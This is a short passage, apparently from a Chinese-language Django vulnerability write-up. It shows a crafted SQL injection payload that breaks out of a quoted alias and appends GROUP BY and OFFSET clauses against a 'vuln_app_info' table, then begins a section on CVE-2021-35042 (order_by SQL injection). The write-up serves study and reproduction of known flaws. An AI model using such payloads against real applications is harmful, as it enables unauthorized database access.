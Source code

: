 <div align=center><img src="./images/9.png"></div>

构造`exp`如下:

```python
-\') AS "demoname" FROM "vuln_app_info" GROUP BY "vuln_app_info"."gender" LIMIT 1 OFFSET 1 -- 
```

<div align=center><img src="./images/10.png"></div>


# CVE-2021-35042
## 漏洞简介
Django 3.1.x before 3.1.13 and 3.2.x before 3.2.5 allows QuerySet.order_by SQL injection if order_by is untrusted input from a client of a web application.

